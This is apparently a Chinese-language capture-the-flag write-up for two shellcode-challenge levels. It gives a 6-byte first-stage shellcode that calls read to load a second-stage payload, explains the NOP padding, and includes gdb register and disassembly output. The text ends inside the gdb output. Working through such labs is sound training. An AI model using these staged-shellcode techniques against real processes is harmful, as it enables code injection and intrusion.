 ## level13

要求0xc个字节以内，数了一下刚好12关的刚好11个字节，直接复用就行。

## level14

最后一关，要求6个字节！

看了网上的解析，需要一个stage2的代码，先通过shellcode调用read，往缓冲区中放入新的shellcode，然后在执行。

这里需要注意的是，调用syscall-read以后，rip的指向已经到了`0x1b3f5006`，但是之前调用read时，缓冲区的地址设置的是`0x1b3f5000`，stage-2部分代码是要在`0x1b3f5000`处开始写，但是代码要在`0x1b3f5006`处开始执行，所以前面需要用nop指令进行填充。

```asm

这是调用shellcod函数之前的寄存器结构

(gdb) info registers
rax            0x0                 0  # 刚好是read函数的系统调用号
rbx            0x5555555557e0      93824992237536
rcx            0x7ffff6d15297      140737334301335
rdx            0x1b3f5000          457134080 # 刚好是缓冲区地址
rsi            0x5555555592a0      93824992252576
rdi            0x7ffff6df57e0      140737335220192
rbp            0x7fffffffdf00      0x7fffffffdf00
rsp            0x7fffffffdeb8      0x7fffffffdeb8
r8             0x16                22
r9             0xb                 11

栈内容以及eip的走向
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000018fa4000 | 31 ff                                         | xor edi, edi
0x0000000018fa4002 | 52                                            | push rdx
0x0000000018fa4003 | 5e                                            | pop rsi
0x0000000018fa4004 | 0f 05                                         | syscall 

1: x/16i $pc
=> 0x1b3f5000:  xor    %edi,%edi
   0x1b3f5002:  push   %rdx
   0x1b3f5003:  pop    %rsi
   0x1b3f5004:  syscall
   0x1b3f5006:  add    %al,(%rax)
   0x1b3f5008:  add    %al,(%rax)
   0x1b3f500a:  add    %al,(%rax)
   0x1b3f500c:  add    %al,(%rax)
   0x1b3f500e:  add    %al,(%rax)
   0x1b3f5010:  add    %al,(%rax)
   0x1b3f5012:  add    %al,(%rax)
   0x1b3f5014:  add    %al,(%rax)
   0x1b3f5016:  add    %al,(%rax)
   0x1b3f5018:  add    %al,(%rax)
   0x1b3f501a:  add    %al,(%rax)
   0x1b3f501c:  add    %al,(%rax)

1: x/16i $pc
=> 0x1b3f5004:  syscall
   0x1b3f5006:  add    %al,(%rax)
   0x1b3f5008:  add    %al,(%rax)
   0x1b3f500a:  add    %al,(%rax)
   0x1b3f500c:  add    %al,(%rax)
   0x1b3f500e:  add    %al,(%rax)
   0x1b3f5010:  add    %al,(%rax)
   0x1b3f5012:  add    %al,(%rax)
```